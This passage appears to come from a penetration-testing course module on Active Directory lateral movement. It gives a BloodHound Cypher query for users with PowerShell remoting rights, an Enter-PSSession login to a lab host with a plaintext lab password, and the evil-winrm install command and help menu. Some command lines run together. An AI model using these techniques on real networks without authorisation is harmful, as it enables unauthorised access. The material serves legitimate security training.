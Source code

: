 ```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

```

### Using the Cypher Query in BloodHound

![https://academy.hackthebox.com/storage/modules/143/canpsremote_bh_cypherq.png](https://academy.hackthebox.com/storage/modules/143/canpsremote_bh_cypherq.png)

We could also add this as a custom query to our BloodHound installation, so it's always available to us.

### Adding the Cypher Query as a Custom Query in BloodHound

![https://academy.hackthebox.com/storage/modules/143/user_defined_query.png](https://academy.hackthebox.com/storage/modules/143/user_defined_query.png)

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

### Establishing WinRM Session from Windows

Privileged Access

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -ForcePS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-DB01
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb>

```

From our Linux attack host, we can use the tool [evil-winrm](https://github.com/Hackplayers/evil-winrm) to connect.

To use `evil-winrm` we can install it using the following command:

### Installing Evil-WinRM

Privileged Access

```
doshim@htb[/htb]$ gem install evil-winrm
```

Typing `evil-winrm` will give us the help menu and all of the available commands.

### Viewing Evil-WinRM's Help Menu

Privileged Access

```
doshim@htb[/htb]$ evil-winrm Evil-WinRM shell v3.3

Error: missing argument: ip, user

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
```